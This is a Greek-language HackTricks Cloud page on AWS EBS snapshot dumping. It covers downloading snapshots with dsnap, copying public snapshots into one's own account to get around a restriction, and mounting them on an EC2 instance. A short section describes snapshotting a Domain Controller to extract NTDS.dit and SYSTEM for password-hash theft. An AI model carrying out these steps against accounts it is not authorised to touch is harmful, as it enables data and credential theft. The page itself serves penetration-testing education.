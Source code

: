 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Έλεγχος ενός snapshot τοπικά
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Σημείωση** ότι το `dsnap` δεν θα σας επιτρέψει να κατεβάσετε δημόσιες στιγμιότυπα. Για να παρακάμψετε αυτό, μπορείτε να κάνετε ένα αντίγραφο της στιγμιότυπα στον προσωπικό σας λογαριασμό και να το κατεβάσετε:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Για περισσότερες πληροφορίες σχετικά με αυτή την τεχνική, ελέγξτε την αρχική έρευνα στο [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Μπορείτε να το κάνετε αυτό με το Pacu χρησιμοποιώντας το module [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs__download_snapshots)

## Έλεγχος ενός snapshot στο AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Εγκαταστήστε το σε μια EC2 VM υπό τον έλεγχό σας** (πρέπει να είναι στην ίδια περιοχή με την αντίγραφο του αντιγράφου ασφαλείας):

Βήμα 1: Ένας νέος τόμος της προτιμώμενης διάστασης και τύπου πρέπει να δημιουργηθεί πηγαίνοντας στο EC2 –> Τόμοι.

Για να μπορέσετε να εκτελέσετε αυτήν την ενέργεια, ακολουθήστε αυτές τις εντολές:

* Δημιουργήστε έναν τόμο EBS για να τον συνδέσετε με την EC2 instance.
* Βεβαιωθείτε ότι ο τόμος EBS και η instance είναι στην ίδια ζώνη.

Βήμα 2: Η επιλογή "σύνδεση τόμου" πρέπει να επιλεγεί κάνοντας δεξί κλικ στον δημιουργηθέντα τόμο.

Βήμα 3: Η instance από το πλαίσιο κειμένου της instance πρέπει να επιλεγεί.

Για να μπορέσετε να εκτελέσετε αυτήν την ενέργεια, χρησιμοποιήστε την παρακάτω εντολή:

* Συνδέστε τον τόμο EBS.

Βήμα 4: Συνδεθείτε στην EC2 instance και καταγράψτε τους διαθέσιμους δίσκους χρησιμοποιώντας την εντολή `lsblk`.

Βήμα 5: Ελέγξτε αν ο τόμος έχει δεδομένα χρησιμοποιώντας την εντολή `sudo file -s /dev/xvdf`.

Εάν η έξοδος της παραπάνω εντολής δείχνει "/dev/xvdf: data", σημαίνει ότι ο τόμος είναι κενός.

Βήμα 6: Μορφοποιήστε τον τόμο στο σύστημα αρχείων ext4 χρησιμοποιώντας την εντολή `sudo mkfs -t ext4 /dev/xvdf`. Εναλλακτικά, μπορείτε επίσης να χρησιμοποιήσετε τη μορφή xfs χρησιμοποιώντας την εντολή `sudo mkfs -t xfs /dev/xvdf`. Παρακαλώ σημειώστε ότι θα πρέπει να χρησιμοποιήσετε είτε ext4 είτε xfs.

Βήμα 7: Δημιουργήστε έναν κατάλογο της επιλογής σας για να εγκαταστήσετε τον νέο τόμο ext4. Για παράδειγμα, μπορείτε να χρησιμοποιήσετε το όνομα "newvolume".

Για να μπορέσετε να εκτελέσετε αυτήν την ενέργεια, χρησιμοποιήστε την εντολή `sudo mkdir /newvolume`.

Βήμα 8: Εγκαταστήστε τον τόμο στον κατάλογο "newvolume" χρησιμοποιώντας την εντολή `sudo mount /dev/xvdf /newvolume/`.

Βήμα 9: Αλλάξτε κατάλογο στον κατάλογο "newvolume" και ελέγξτε τον χώρο δίσκου για να επιβεβαιώσετε την εγκατάσταση του τόμου.

Για να μπορέσετε να εκτελέσετε αυτήν την ενέργεια, χρησιμοποιήστε τις παρακάτω εντολές:

* Αλλάξτε κατάλογο στο `/newvolume`.
* Ελέγξτε τον χώρο δίσκου χρησιμοποιώντας την εντολή `df -h .`. Η έξοδος αυτής της εντολής θα πρέπει να δείχνει τον ελεύθερο χώρο στον κατάλογο "newvolume".

Μπορείτε να το κάνετε αυτό με το Pacu χρησιμοποιώντας το module `ebs__explore_snapshots`.

## Έλεγχος ενός snapshot στο AWS (χρησιμοποιώντας cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

Οποιοσδήποτε χρήστης AWS που διαθέτει την άδεια **`EC2:CreateSnapshot`** μπορεί να κλέψει τους κατακερματισμούς όλων των χρηστών του τομέα δημιουργώντας ένα **snapshot του Domain Controller**, τοποθετώντας το σε μια παρουσία που ελέγχει και **εξάγοντας το NTDS.dit και το SYSTEM** αρχείο μητρώου για χρήση με το έργο secretsdump του Impacket.

Μπορείτε να χρησιμοποιήσετε αυτό το εργαλείο για να αυτοματοποιήσετε την επίθεση: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) ή μπορείτε να χρησιμοποιήσετε μία από τις προηγούμενες τεχνικές μετά τη δημιουργία ενός snapshot.

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
